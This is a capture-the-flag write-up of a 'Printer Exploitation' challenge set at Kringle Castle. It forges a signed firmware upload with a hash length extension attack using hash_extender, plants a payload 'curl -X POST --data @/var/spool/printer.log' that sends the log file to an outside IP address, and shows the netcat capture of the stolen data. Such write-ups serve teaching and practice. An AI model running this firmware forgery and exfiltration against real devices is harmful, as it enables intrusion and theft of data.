

# 7) Printer Exploitation

_Difficulty:_  :evergreen_tree: :evergreen_tree: :evergreen_tree: :evergreen_tree:

> Investigate the stolen Kringle Castle printer. Get shell access to read the
> contents of `/var/spool/printer.log`. What is the name of the last file printed
> (with a `.xlsx` extension)? Find _Ruby Cyster_ in Jack's office for help with this
> objective.

[Kringle Castle printer](https://printer.kringlecastle.com/)

Ruby Cyster

> Hey, I'm Ruby Cyster. Don't listen to anything my sister, Ingreta, says about
> me.  So I'm looking at this system, and it has me a little bit worried.  If I
> didn't know better, I'd say someone here is learning how to hack North Pole
> systems.  Who's got that kind of nerve!  Anyway, I hear some elf on the other
> roof knows a bit about this type of thing.  Oh man - what is this all about?
> Great work though.  So first things first, you should definitely take a look at
> the firmware.  With that in-hand, you can pick it apart and see what's there.

When analyzing a device, it's always a good idea to pick apart the firmware.
Sometimes these things come down Base64-encoded.

```sh
$ curl --silent https://printer.kringlecastle.com/firmware/download | jq -r '.firmware'  | base64 -d > firmware
$ file firmaware
firmware: Zip archive data, at least v2.0 to extract, compression method=deflate
```

> Have you heard of Hash Extension Attacks?

[Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)

[github.com/iagox86/hash_extender](https://github.com/iagox86/hash_extender)

Hint: Files placed in /app/lib/public/incoming will be accessible under
<https://printer.kringlecastle.com/incoming/>

```sh
curl -X POST --data @/var/spool/printer.log 3.71.92.79:9200
```

```sh
$ zip new.zip firmware.bin # content of firmware.bin = above bash script
$ zipinfo new.zip
 Archive:  new.zip
 Zip file size: 234 bytes, number of entries: 1
 -rwxrwxr-x  3.0 unx       60 tx stor 21-Dec-24 09:19 firmware.bin
 1 file, 60 bytes uncompressed, 60 bytes compressed:  0.0%

$ ./hash_extender/hash_extender --file firmware.zip --signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --format=sha256 -l 16 --out-data-format=hex -a `cat new.zip | xxd -p -c 99999999999` --append-format hex

Type: sha256
Secret length: 16
New signature: 8e252e34ae6e4c908a43d0de5bd41304facc76901412e79147c60676aae4e026
New string: 504b0304140000000d776172652e62696e5554090003a2a4bb61a2a4bb6175780b000104000000000400000000ed5b5f6c1c47199fbdf3d9e73a5e9fd384384ec09792480ee4ce97a4761d5a373edb67afd1c531a91dd45067b3f6ae7d47ef8f7bb747ec0022e0523815973e54a80fed0b79492590287d8107d4045b952a284a1e2a22419109a9e446a05e54885248bdccecceb7de99db6bca0bf0b09dec7ad63bdfb712c9...00000000
```



Recontructured firmware upload file json with updated signature
and zip file base base64 [firmware_patched.json](./firmware_patched.json)

```text
ubuntu@ip-10-0-1-242:~$ nc -l -p 9200
POST / HTTP/1.1
Host: 3.71.92.79:9200
User-Agent: curl/7.64.0
Accept: */*
Content-Length: 338
Content-Type: application/x-www-form-urlencoded

Documents queued for printing=============================Biggering.pdfSize Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdfLowEarthOrbitFreqUsage.txtBest Winter Songs Ever List.docWin People and Influence Friends.pdfQ4 Game Floor Earnings.xlsxFwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.emlTroll_Pay_Chart.xlsx
```

_Answer:_ **Troll_Pay_Chart.xlsx**

The following error along the way was crucial.
The Elf hint "...multiple files of that type..."
apprently referred to that the (new) file needs to be
named 'firmware.bin'.

```text
Failed to parse the ZIP file: Could not extract firmware.bin from the archive:

$ unzip '/tmp/20211224-1-z201xi' 'firmware.bin' -d '/tmp/20211224-1-z201xi-out' 2>&1 && /tmp/20211224-1-z201xi-out/firmware.bin

Archive:  /tmp/20211224-1-z201xi
warning [/tmp/20211224-1-z201xi]:  2608 extra bytes at beginning or within zipfile
  (attempting to process anyway)
caution: filename not matched:  firmware.bin
```

## References / Links

* [Modern Web App Pen Testing II, Hash Length Extension Attacks](https://www.youtube.com/watch?v=ckF5oboeh4Q)
